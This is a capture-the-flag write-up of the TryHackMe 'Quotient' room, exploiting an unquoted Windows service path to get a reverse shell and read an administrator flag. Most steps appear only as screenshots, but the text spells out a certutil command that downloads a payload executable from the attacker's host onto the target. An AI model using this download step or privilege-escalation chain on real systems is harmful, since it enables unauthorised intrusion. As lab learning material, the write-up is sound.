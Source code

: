 ### Introduction
Link: https://tryhackme.com/room/quotient#
Created by: ben, JohnHammond, cmnatic, NightWolf, timtaylor
* * *
### Connecting
Pinging the IP address for this machine does not seem to resolve anything. I had to briefly look at another write-up to see if anyone else had issues. It seems RDP still works so I proceeded to simply connect to it and it worked.

<p>
  <img height="auto" src="./_resources/3cc90c64c1d1ac43d1aef70c73009f4e.png">
</p>
  
* * *
### Reconnaissance
Right away we can tell that this server is an AWS Instance being hosted in **eu-west-1b** and is a t2.medium EC2 instance. Not crucially important, but interesting to point out.

Let's see what kind of permissions we have as the user "Sage".

<p>
  <img height="auto" src="./_resources/658494285c75fb47f7e816ce2fc218a1.png">
</p>

It looks like we're not very special and only have general access.

<p>
  <img height="auto" src="./_resources/3dadeb6debd6380cdab64b97820bbbaa.png">
</p>

Let's have a look around and see what is on this computer. So far the only thing that really stands out is the folder **windows nt**. Normally the **W** would be capitalized, same with **NT**. Not sure why this was deliberately changed, but we will keep it in mind if anything else comes up.

<p>
  <img height="auto" src="./_resources/a0b61d9dd05b25eb245f52e170b292a1.png">
</p>

Nothing else stands out withing the folders, maybe we can see what services are running on the machine.

Everything looks normal except for one. It has no description and is misspelled.

<p>
  <img height="auto" src="./_resources/95562cfa26ee77ee2229ff38837c2efb.png">
</p>

Let's investigate.

<p>
  <img height="auto" src="./_resources/0ada677f68c1d969a7520527e7a983c4.png">
</p>

At this point, I was a bit stuck and not sure how to proceed. Clearly there is something about this service that is meant to be exploited. 

I am learning that it is ok to be stuck, part of PenTesting is research. You are not going to know everything for every engagement and it is important to be able to find the answers we need on an as needed basis.

With the help of Google, I came across this article which seems to fit the exact situation we are in.

**Link:** https://vk9-sec.com/privilege-escalation-unquoted-service-path-windows/#:~:text=When%20a%20service%20is%20created,of%20the%20time%20it%20is).

### Exploitation

So we are dealing with an **Unquoted Service Path**, now the name of the room makes a little more sense.

According to the article above, we should create a payload and drop it into that file path. So let's create that payload.

<p>
  <img height="auto" src="./_resources/69003b3b6fa29e0ca5cd9b402cc1815c.png">
</p>

Now we need to start a web server on our Kali machine.

<p>
  <img height="auto" src="./_resources/7eed70e4cd3a5000fb4542483de44f67.png">
</p>

And we need to download the executable from our target machine.

<p>
  <img height="auto" src="./_resources/e2c62b94d766594d957550f4eabbe889.png">
</p>

Now, we need to have the machine run that service, but we lack the permissions to start/stop them, so a reboot will be required.

But first, gotta make sure NetCat is listening.

<p>
  <img height="auto" src="./_resources/e57fff9a846ab29bc1461d3146275646.png">
</p>

Now, the wait begins...
...
...
...
...
Still nothing, maybe there is an issue with the server?
Server is back up, IP is the same, and the revshell.exe is still there. What went wrong?

Well, as it turns out, it's the name of the .exe. I did not read the article carefully and missed the part where it said that the .exe file needs to be named something similar to what is in the service path, .ie, Devservice.exe.

Let's start over real quick.

<p>
  <img height="auto" src="./_resources/d65e82940e2f358055650fc96fb76da2.png">
</p>

That's better.
Now we'll download this on the target machine.

`certutil -urlcache -split -f “http://10.13.27.44:9999/Devservice.exe” Devservice.exe`

And reboot the target machine.
Now we once again wait on NetCat.

...

Got it...

<p>
  <img height="auto" src="./_resources/f314cea54ab81f3928c495244f3b2faa.png">
</p>

* * *

### Post-Exploitation

Time to search for that flag.txt file.

And it looks like it's right on the Admin Desktop.

<p>
  <img height="auto" src="./_resources/b9983bdb900bafc38d417afd67737caa.png">
</p>

* * *

### Lessons Learned

READ!!!

I tend to skimp documentation to get to the good stuff, I was in a hurry to try out the exploit without taking my time to actually read how it works. But as they say, failure is a better teacher than success. This will be something that sticks with me.
